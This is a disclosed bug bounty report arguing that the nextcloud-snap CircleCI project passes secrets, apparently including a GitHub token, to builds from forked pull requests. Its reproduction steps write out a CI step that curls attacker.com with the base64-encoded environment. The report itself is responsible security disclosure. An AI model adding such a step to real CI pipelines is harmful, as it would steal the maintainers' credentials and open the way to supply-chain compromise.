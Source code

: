 # nextcloud-snap CircleCI project has vulnerable configuration which can lead to exposing secrets

## Report Details
- **Report ID**: 794407
- **URL**: https://hackerone.com/reports/794407
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-02-12T11:08:18.357Z
- **Disclosed**: 2021-01-29T12:40:33.773Z

## Reporter
- **Username**: nathand
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
## Summary:
CircleCI allows projects to configure whether builds will run as a result of a pull request from a fork, and also whether these fork PRs have access to the secrets stored in the parent repo's CircleCI settings. When both settings are enabled, and the repo associated with the project allows PRs to come from forks from any user (which Github always allows), then a CircleCI project is vulnerable to leaking secrets. Please see the following for documentation on this:

https://circleci.com/docs/2.0/oss/#pass-secrets-to-builds-from-forked-pull-requests

Particularly:

> If you are comfortable sharing secrets with anyone who forks your project and opens a PR, you can enable the Pass secrets to builds from forked pull requests option

I believe the `nextcloud/nextcloud-snap` CircleCI project is configured in a vulnerable state, where both these settings are enabled. To determine this, I have developed an automated technique to query CircleCI projects for various non-sensitive settings including whether secrets are being passed to PRs from forks, although an attacker may be able to determine this by manually inspecting the build logs of fork PRs to the project for signs of credential use, or by simply doing a spray-n-pray, i.e., send in a malicious PR and hope for the best. You can confirm this by accessing the CircleCI dashboard, selecting the `nextcloud/nextcloud-snap` project, clicking on the Settings icon (right side, little cog icon), choosing "Advanced Settings", and scrolling down to "Build forked pull requests" (should be "On") and "Pass secrets to builds from forked pull requests" (should be "On").

Inspecting the `.circleci/config.yml` file for this repo suggests that there may not be any secret values being used, however if you go to a build job such as this one:

https://circleci.com/gh/nextcloud/nextcloud-snap/4537

Then expand the "Preparing Environment Variables" section, and scroll down to "Using environment variables from project settings and/or contexts", you can see that the CircleCI environment has access to `GH_AUTH_TOKEN`, which I'm assuming is a Github auth token. Assuming the worst, and this token grants a high level of access, its exposure using the technique outlined in this report could lead to malicious code being injected into Nextcloud repos, access to private repos etc.

FYI, utilizing CircleCI Contexts may have prevented this configuration from being an issue, however my analysis of the CircleCI config file in this report suggests that Contexts is not being used.

https://circleci.com/docs/2.0/contexts/

**Please note:** I did *not* submit any real pull requests to confirm this vulnerability, as I did not want to potentially tip off real attackers, as it would be hard to conduct a proof of concept in a public PR without also risking revealing the vulnerability. However my testing on CircleCI is fairly conclusive that these two configuration settings being enabled are vulnerable.

With that said, I'm willing to help prove this vulnerability in a more private environment, such as a private Nextcloud Github repository that is configured for CircleCI builds with the same vulnerable configuration outlined in this, which I have access to submit PRs to. The permission model on Github really has no bearing on this vulnerability from what I can tell, so I believe this would be a faithful representation of the vulnerability, without exposing the technique publicly. My Github username is `ndavison` if you wish to do this.

## Steps To Reproduce:

  1. Fork the `nextcloud/nextcloud-snap` repo to a user (e.g. so it ends up as https://github.com/USER/nextcloud-snap).
  1. Create a new branch in the fork, and modify the `.circleci/config.yml` file so environment variables are exfiltrated, e.g. add `- run: curl https://attacker.com/?env=$(env | base64 | tr -d '\n')` to a CircleCI step that is executed during the CI build.
  1. Send the branch in as a PR to `nextcloud/nextcloud-snap`.
  1. Watch the web logs on `attacker.com` and wait for the environment variables stored in the CircleCI `nextcloud/nextcloud-snap` project to arrive via the query string.

## Supporting Material/References:

  * Please see the attached screenshot (`circleci-vulnerable-config.png`) of the vulnerable configuration state (when visiting "Advanced Settings" for a project in the CircleCI dashboard)

## Impact

By abusing the CircleCI configuration for the project, an attacker would be able to leak environment variables, deployment keys, and other credentials stored within the CircleCI project's settings. In this case it looks like the project might have access to a Github access token.

## Attachments
- circleci-vulnerable-config.PNG
